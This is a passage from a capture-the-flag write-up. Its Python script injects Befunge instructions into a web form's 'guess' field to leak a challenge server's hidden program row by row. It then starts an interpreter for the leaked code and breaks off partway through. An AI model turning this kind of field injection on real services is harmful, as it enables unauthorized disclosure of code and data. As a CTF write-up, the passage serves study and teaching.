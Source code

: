 So all we had to do was to get the program, we can just write a short for loop to get the program like this:

```py
from pwn import *
from requests import post

URL = "https://flagcmp-b8f9ceaf86d7846a.brics-ctf.ru"
#URL = "http://localhost:80"

prog = b""

for j in range(25):
    for i in range(80):
        payload = b'"' # escape
        a = i%9
        b = i//9
        payload += f"{b}9*{a}+".encode() # x coord
        a = j%9
        b = j//9
        payload += f"{b}9*{a}+".encode() # y coord

        payload += b'''1.52*,g,@'''      # don't know if necessary, but do the same thing as the original by printing 1 then newline and then the read char

        payload = payload.replace(b"+", b"%2b") # goddam url encode
        guess = payload + b"7"*2

        c = post(URL,
             headers={"Content-Type": "application/x-www-form-urlencoded"},
             data=b"guess="+guess
        ).content

        if b"result" in c:
            result = c.split(b"Comparison result: ")[1].split(b"</span>")[0]
            print(result)
            prog += result
            print(prog)
        else:
            exit(1)
```

This will slowly print the program row-by-row. Luckily for us this already deals with the encoding being zig-zag as we get the actual program. Unluckily this takes some time, however since I then need to interpret the program i figured i could just let it run and write the interpreter in the meantime. Like mentioned I assume that the first line is the length of the second line, however I didn’t confirm that, but if you want to optimize the befunge a bit feel free to.

Anyhow I finished this interpreter before I leaked the entire program:

```py
s = b'leaked prog'
# this goddamn html again
s = s.replace(b"&quot;", b"\"")
s = s.replace(b"&gt;", b">")
s = s.replace(b"&lt;", b"<")
# fill up to 2000 instructions
s = s + b" "*(2000-len(s))

"""
s = bytearray(s)
for r in range(2, 25, 2):
    for i in range(40):
        s[80*r+i], s[80*r+79-i] = s[80*r+79-i],s[80*r+i]
"""
s = s.decode()
```